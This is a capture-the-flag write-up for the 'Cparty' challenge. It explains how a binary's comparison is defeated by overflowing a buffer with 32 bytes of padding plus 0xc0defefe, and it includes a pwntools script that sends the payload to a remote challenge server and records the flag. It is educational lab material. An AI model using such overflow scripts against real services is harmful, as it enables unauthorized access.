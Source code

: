 # Cparty

![](./img/1.png#center)

To start I connect to the server to see what it asks me :

![](./img/2.png#center)

So I need to find a password. I will look the file with binaryninja.

![](./img/3.png#center)

As you can see, in order to retrieve the flag, we need to find ourselves in the block where there is the « cat /home/party/flag ». And just before this block we can see the comparison in order to enter this block :

![](./img/4.png#center)

Using this buffer is therefore very simple, we just have to find the size of our buffer then add the address 0xc0defefe so that the comparison is true and we can have the flag.

To use this vulnerability we need :

## Padding + 0xc0defefe#center

After a while, I arrived at 32 in padding.

Now that we have everything we juste need a script to automate the pwn :

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

from pwn import *

p = remote("89.38.210.128", 31338)

p.send("A"*32+p32(0xc0defefe))

p.recv(1024)

p.interactive()

#timctf{d0nt_cr4sh_th3_p4rty_b3_th3_p4rty}
```

![](./img/5.png#center)